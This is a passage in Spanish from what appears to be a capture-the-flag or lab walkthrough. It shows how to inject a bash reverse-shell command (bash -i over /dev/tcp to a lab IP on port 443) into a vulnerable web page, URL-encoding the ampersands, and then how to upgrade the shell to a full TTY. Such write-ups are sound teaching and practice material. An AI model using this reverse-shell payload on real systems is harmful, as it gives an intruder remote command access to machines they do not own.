 Pues ahora nos enviaremos una reverce shell a nuestra maquina para ello nos pondremos en escucha por algún puerto 
![paste](./26.jpeg)

Después en la pagina agregaremos este comando 
```bash
bash -c "bash -i >& /dev/tcp/192.168.150.129/443 0>&1"
```

recuerda urlcodear los "&"

![paste](./31.jpeg)

![paste](./32.jpeg)


## Tratamiento de la shell

```bash

script /dev/null -c bash

^Z # Ctrl+Z

stty raw -echo; fg

reset xterm

export TERM=xterm;export SHELL=bash

stty rows 41 columns 192 #Ajustar a tus proporciones 

```
